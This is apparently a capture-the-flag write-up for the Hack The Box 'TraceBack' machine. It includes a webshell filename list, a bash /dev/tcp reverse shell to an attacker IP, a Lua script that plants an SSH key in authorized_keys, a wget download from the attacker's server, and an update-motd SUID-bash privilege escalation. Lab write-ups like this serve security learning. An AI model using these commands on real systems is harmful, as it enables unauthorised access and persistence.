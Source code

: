 # [TraceBack](https://app.hackthebox.com/machines/traceback)

```bash
nmap -p- --min-rate 10000 10.10.10.181 -Pn
```

![Alt text](img/image.png)

After detection of open ports (22,80), let's do greater nmap scan.

```bash
nmap -A -sC -sV -p22,80 10.10.10.181 -Pn
```

![Alt text](img/image-1.png)



While browsing web application, I see that one message is there.

![Alt text](img/image-2.png)


Let's search for webshell files, I find this [page](https://github.com/TheBinitGhimire/Web-Shells) to get names of webshells.

```bash
alfa3.php
alfav3.0.1.php
andela.php
bloodsecv4.php
by.php
c99ud.php
cmd.php
configkillerionkros.php
jspshell.jsp
mini.php
obfuscated-punknopass.php
punk-nopass.php
punkholic.php
r57.php
smevk.php
wso2.8.5.php
```


Let's do directory enumeration for these files via `gobuster`.

```bash
gobuster dir -u http://10.10.10.181 -w php_shells.txt
```

![Alt text](img/image-3.png)


But this page asks authentication credentials.

![Alt text](img/image-4.png)

I find these credentials on source code of application.

admin:admin

I used these credentials to connect into machine.

![Alt text](img/image-5.png)


Let's write our reverse shell payload into `Execute` section.

```bash
bash -c 'bash -i >& /dev/tcp/10.10.14.10/1337 0>&1'
```

![Alt text](img/image-6.png)

I got reverse shell from port (1337).

![Alt text](img/image-7.png)


Let's make interactive shell.

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
Ctrl+Z
stty raw -echo; fg
export TERM=xterm
export SHELL=bash
```

![Alt text](img/image-8.png)

I just check this user's  privileges via `sudo -l` command.

![Alt text](img/image-9.png)

Via `sysadmin` user, I can run `luvit` binary which can execute scripts which I want.

Now, I wrote `Lua` script to add my attacker's machine public key into `authorized_keys` of target machine.

```bash
authkeys = io.open("/home/sysadmin/.ssh/authorized_keys", "a")
authkeys:write("{public_key}\n")
authkeys:close()
```

![Alt text](img/image-10.png)


Let's open http server to send this file into target machine.

```bash
python3 -m http.server --bind 10.10.14.10 8080
```

![Alt text](img/image-11.png)

Then, download `dr4ks.lua` file into machine via `wget` command.
```bash
wget http://10.10.14.10:8080/dr4ks.lua
```

![Alt text](img/image-12.png)

Then, I run this script via `luvit` binary.
```bash
sudo -u sysadmin /home/sysadmin/luvit /tmp/dr4ks.lua
```

![Alt text](img/image-13.png)


Let's try to connect machine via attacker's private key (id_rsa) file via `ssh` command
```bash
ssh -i {priv_key} sysadmin@10.10.10.181
```

user.txt

![Alt text](img/image-14.png)


For privilege escalation, I upload `pspy64` to see jobs of target system.

![Alt text](img/image-15.png)

I see different and interesting thing `update-motd.d`.


I searched `Privilege Escalation` for this and found related [blog](https://exploit-notes.hdks.org/exploit/linux/privilege-escalation/update-motd-privilege-escalation/)


```bash
echo "cp /bin/bash /home/sysadmin/dr4ks && chmod 4777 /home/sysadmin/dr4ks" >> /etc/update-motd.d/00-header
```

Then, we need to run `./dr4ks -p` to get root shell.

![Alt text](img/image-16.png)


